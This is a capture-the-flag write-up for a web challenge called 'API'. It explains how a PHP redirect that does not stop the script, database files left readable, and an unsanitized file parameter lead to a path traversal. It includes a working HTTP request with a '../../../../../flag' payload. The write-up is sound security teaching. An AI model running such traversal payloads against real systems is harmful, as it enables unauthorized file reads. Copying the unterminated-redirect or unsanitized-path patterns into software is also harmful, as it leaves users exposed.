

# API

## Description

Easy and simple API

`https://api.chal.acsc.asia`



## Solution

Sample API request:

```text
id=test&pw=test&c=i
```

The `c` parameter is used to decide the first command - signin, signup or signout.

```php
function main($acc){
    gen_user_db($acc);
    gen_pass_db();
    header("Content-Type: application/json");
    $user = new User($acc);
    $cmd = $_REQUEST['c'];
    usleep(500000);
    switch($cmd){
        case 'i':
            if (!$user->signin())
                echo "Wrong Username or Password.\n\n";
            break;
        case 'u':
            if ($user->signup())
                echo "Register Success!\n\n";
            else
                echo "Failed to join\n\n";
            break;
        case 'o':
            if ($user->signout())
                echo "Logout Success!\n\n";
            else
                echo "Failed to sign out..\n\n";
            break;
    }
    challenge($user);
}
```

The user is checked for `is_admin()`, then the `c2` parameter is used to decide a second admin command. If `is_admin()` is false, then `redirect()` is called.

```php
function challenge($obj){
    if ($obj->is_login()) {
        $admin = new Admin();
        if (!$admin->is_admin()) $admin->redirect('/api.php?#access denied');
        $cmd = $_REQUEST['c2'];
        if ($cmd) {
            switch($cmd){
                case "gu":
                    echo json_encode($admin->export_users());
                    break;
                case "gd":
                    echo json_encode($admin->export_db($_REQUEST['db']));
                    break;
                case "gp":
                    echo json_encode($admin->get_pass());
                    break;
                case "cf":
                    echo json_encode($admin->compare_flag($_REQUEST['flag']));
                    break;
            }
        }
    }
}
```

However, `redirect()` does not actually terminate the PHP script. It simply prints some HTML output. The code execution continues, and the `c2` parameter is always processed.

```php
public function redirect($url, $msg=''){
    $con = "<script type='text/javascript'>".PHP_EOL;
    if ($msg) $con .= "\talert('%s');".PHP_EOL;
    $con .= "\tlocation.href = '%s';".PHP_EOL;
    $con .= "</script>".PHP_EOL;
    header("location: ".$url);
    if ($msg) printf($con, $msg, $url);
    else printf($con, $url);
}
```

Now, we need the passcode in order to perform the admin functions. We can access `/lib/db/user.db` and `/lib/db/passcode.db` directly from the server.

The admin account is

```text
Pang|c307cae832059f15e52cc5e6a26a2eb3ae7173e6|1
```

The passcode is

```text
:<vNk
```

The `export_db` function gets the contents of a file.

```php
public function export_db($file){
    if ($this->is_pass_correct()) {
        $path = dirname(__FILE__).DIRECTORY_SEPARATOR;
        $path .= "db".DIRECTORY_SEPARATOR;
        $path .= $file;
        $data = file_get_contents($path);
        $data = explode(',', $data);
        $arr = [];
        for($i = 0; $i < count($data); $i++){
            $arr[] = explode('|', $data[$i]);
        }
        return $arr;
    }else 
        return "The passcode does not equal with your input.";
}
```

`$file` is user-controlled, so we can simply do a path traversal to get the flag:

```http
POST /api.php HTTP/2
Host: api.chal.acsc.asia

...

id=Abcabcabc&pw=Abcabcabc&c=i&c2=gd&pas=:<vNk&db=../../../../../flag
```



The flag is `ACSC{it_is_hard_to_name_a_flag...isn't_it?}`.

